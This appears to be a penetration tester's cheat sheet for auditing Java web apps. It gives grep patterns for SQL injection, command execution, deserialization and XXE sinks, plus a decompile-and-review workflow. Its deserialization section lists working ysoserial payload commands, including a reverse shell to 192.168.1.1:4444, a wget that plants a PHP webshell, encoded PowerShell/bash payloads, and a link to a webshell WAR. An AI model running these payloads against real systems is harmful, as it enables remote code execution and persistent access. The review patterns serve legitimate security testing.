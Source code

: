     Structure:
        WAR contains multiple JARS (single application/libraries); EAR can contain multiple JARs and WARs to consolidate multiple web applications into a single file
        /APP-INF/lib may contain application JAR files; /BOOT-INF/lib/ inside the JAR file contains dependencies
        Important Files:  
            web.xml (config settings, servlet URL mappings, authenticated URLs, etc.)
                ex. C:\Program Files (x86)\ManageEngine\AppManager12\working\WEB-INF\web.xml
            /META-INF/application.xml specifies where external application libraries are found in an EAR
                ex. <library-directory>APP-INF/lib</library-directory>
    *User-Supplied Data Interface:  javax.servlet.http.HttpServletRequest
        (doGet|doPost|doPut|doDelete|doCopy)
            Then look for: getParameter or getParameterValues
    Session Interaction:  javax.servlet.http.HttpSession
    File Interaction:  java.io.File class
        egrep -R 'File |File\(|FileInputStream|FileOutputStream|FileReader|FileWriter' .
        (File |File\(|FileInputStream|FileOutputStream|FileReader|FileWriter)
    SQLI Vulnerable Functions:  egrep -iR 'java\.sql\.Connection|java\.sql\.Statement' .
        egrep -R 'createStatement|execute\(|executeQuery' .
        (createStatement|execute\(|executeQuery)
        (executeQuery|java.sql.Statement.execute|java.sql.Statement.executeQuery|java.sql.Connection.createStatement)
        ^.*?query.*?select.*?  \\  ^.*?query.*?select.*?where.*?\+.*? 
    OS Commands:  egrep -R 'java\.lang\.runtime\.Runtime|getRuntime\(|exec\(|processbuilder|process' .
        (java\.lang\.runtime\.Runtime|getRuntime\(|exec\(|processbuilder|process)
        Injection characters: & && ; ' " | || >
    Troubleshooting:
        Interactive:  jshell
            ex. import java.util.Random; Random r1 = new Random(42); Random r2 = new Random(42); int x, y; for(int i=0; i<10; i++) { x = r1.nextInt(); y = r2.nextInt(); if(x == y){System.out.println("They match! " + x);}}; /exit   
        REVERSE SHELL ENCODING/TROUBLESHOOTING TOOL:
            https://web.archive.org/web/20211103090336/https://www.jackson-t.ca/runtime-exec-payloads.html
    ##Dangerous Function Search:  python3 javaid.py -d '/full/project/path'
    Deserialization:
        Indicator:  application/x-java-serialized-object HTTP header 
        Methods: Java.io.Serializable, readObject(), writeObject(), java.io.ObjectInputStream (deserializes), outputstream (serializes)
        Vulnerable Functions:  readObject()
            egrep -iR 'java.io.Serializable|Serial|InputStream|outputstream|readObject|writeobject|XMLdecoder|fromXML' .
            (java.io.Serializable|Serial|InputStream|outputstream|readObject|writeobject|XMLdecoder|fromXML)
            (.*readObject\(.*|java.beans.XMLDecoder|com.thoughtworks.xstream.XStream|.*\.fromXML\(.*\)|com.esotericsoftware.kryo.io.Input|.readClassAndObject\(.*|.readObjectOrNull\(.*|com.caucho.hessian.io|com.caucho.burlap.io.BurlapInput|com.caucho.burlap.io.BurlapOutput|org.codehaus.castor|Unmarshaller|jsonToJava\(.*|JsonObjectsToJava\/.*|JsonReader|ObjectMapper\(|enableDefaultTyping\(\s*\)|@JsonTypeInfo\(|readValue\(.*\,\s*Object\.class|com.alibaba.fastjson.JSON|JSON.parseObject|com.owlike.genson.Genson|useRuntimeType|genson.deserialize|org.red5.io|deserialize\(.*\,\s*Object\.class|\.Yaml|\.load\(.*|\.loadType\(.*\,\s*Object\.class|YamlReader|com.esotericsoftware.yamlbeans)
        Vulnerable Libraries:
            find . -iname "*commons*collection*"
            egrep -iR "AspectJWeaver|BeanShell1|C3P0|Click1|Clojure|CommonsBeanutils1|Commons.*Collection|FileUpload1|Groovy1|Hibernate|JBossInterceptors1|JRMPClient|JRMPListener|JSON1|JavassistWeld1|Jdk7u21|Jython1|MozillaRhino|Myfaces|ROME|Spring|URLDNS|Vaadin1|Wicket1" .
            (AspectJWeaver|BeanShell1|C3P0|Click1|Clojure|CommonsBeanutils1|Commons.*Collection|FileUpload1|Groovy1|Hibernate|JBossInterceptors1|JRMPClient|JRMPListener|JSON1|JavassistWeld1|Jdk7u21|Jython1|MozillaRhino|Myfaces|ROME|Spring|URLDNS|Vaadin1|Wicket1)
        Process:  After detection, look for gadgets--see what classes are available (or trial and error w/ ysoserial)
        Payloads:
            Try every gadget available!
            Java War Webshell:  https://github.com/tghosth/webshelljar/raw/master/webshell.war
            Classic ysoserial:
                ex. java -jar ysoserial.jar CommonsCollections1 "touch ./pwned.txt" > payload
                ex. java -jar ysoserial.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
                ex. java -jar ysoserial.jar CommonsCollections4 "ping -c 1 10.10.1.1" | base64 -w 0 | xclip -selection clipboard   -> then paste and right click url decode in burp
                ex. java -jar ysoserial.jar CommonsCollections3 "wget http://192.168.1.1/shell.php -O /var/www/html/shell.php" 
                ex. java -jar ysoserial.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ....."
                ex. java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,YmFza......}|{base64,-d}|{bash,-i}" | base64 -w0
                ex. java -jar yoserial.jar CommonsCollections1 "cmd /c calc.exe" | base64 -w 0
            Modified ysoserial (use for complex commands, pipes, etc.):
                ex. java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/192.168.1.1/4444 0>&1' > payload
                ex. java -jar ysoserial-modified.jar CommonsCollections5 cmd 'ping -n 2 192.168.1.1'
                ex. java -jar ysoserial-modified.jar CommonsCollections5 powershell 'ping -n 2 192.168.1.1'
            Base64 encode payload:  base64 -w0 payload
            Reverse Shell Troubleshooting:  https://web.archive.org/web/20211103090336/https://www.jackson-t.ca/runtime-exec-payloads.html
                Or use ysoserial-modified
                Test different types of rev shell payloads; try downloading shell and executing separately
    Insecure Random / Token Generation:
        Secure: java.security.SecureRandom
        Insecure: java.util.Random when using a predictable/repeatable seed value
            If two instances of Random are created with the same seed, and the same sequence of method calls is made for each, they will generate and return identical sequences of numbers
    Webshell:  /usr/share/webshells/jsp/cmdjsp.jsp   
    XXE:  grep -R "javax.xml.transform.Transformer" .
        Vulnerable library when created without enabling "Secure Processing" or when one is created without disabling resolving of both external DTDs and DTD entities.
        
    Java Approach:
        Prep:
            Use ProcExp, figure out which Java process to target; check properties for CWD
            Check mappings in Web.xml (in WEB-INF folder)
                shows servlets, which URLs require authentication, and other information, plus *URLs for each servlet
            Figure out which classes you want to review - look for JAR files (non-3rd party ones)
                ex. C:\Program Files (x86)\ManageEngine\AppManager12\working\WEB-INF\lib
            Then decompile them with JD-GUI
            Transfer code to Notepad for searching:   File > Save All Sources -> Then use Find in Files (and select the unzipped folder)
        Analysis: 
            *Step 1: Check endpoints in web.xml, then start with notable JSP files
                ex. Starting with PasswordReset.jsp
                Look at custom imports
            *Method 1: Search for doGet and doPost functions that process user input before using it in a SQL query, etc.
                (doGet|doPost|doPut|doDelete|doCopy)
            Method 2: Search for server-side processing (SQL queries, etc.), then see what you can control
                See what syntax is used/how queries are formatted, then create expression:
                    ^.*?query.*?select.*?  \\  ^.*?query.*?select.*?where.*?\+.*?       
        .do extensions:  URL mapping scheme for compiled Java code
        Dependencies are in /BOOT-INF/lib/ inside the JAR file
            Import dependencies into VSCode:  ex. unzip -j NumberGame.jar "BOOT-INF/lib/*" -d NumberGame/lib/